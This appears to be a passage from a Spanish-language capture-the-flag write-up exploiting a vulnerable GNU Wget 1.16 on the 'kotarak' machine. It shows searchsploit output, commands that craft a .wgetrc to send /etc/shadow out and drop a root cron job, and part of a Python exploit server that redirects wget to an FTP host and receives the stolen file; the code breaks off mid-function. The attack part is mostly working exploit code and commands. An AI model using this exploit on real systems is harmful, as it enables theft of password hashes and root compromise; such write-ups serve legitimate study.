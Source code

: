 Esta versión de ```wget``` es vulnerable a una ejecución remota de comandos

```null
searchsploit wget 1.16
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Wget < 1.18 - Access List Bypass / Race Condition                                                                                                                          | multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload (2)                                                                                                                                    | linux/remote/49815.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                                                | linux/remote/40064.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotarlo hay que hacer lo siguiente:

```null
atanas@kotarak-dmz:/tmp$ mkdir /tmp/ftptest
atanas@kotarak-dmz:/tmp$ cd /tmp/ftptest
atanas@kotarak-dmz:/tmp/ftptest$ cat <<_EOF_>.wgetrc
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell
> _EOF_
atanas@kotarak-dmz:/tmp/ftptest$ authbind python -m pyftpdlib -p21 -w &>/dev/null &

Retoco el ```exploit.py```

```null
import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc
       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	 print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
```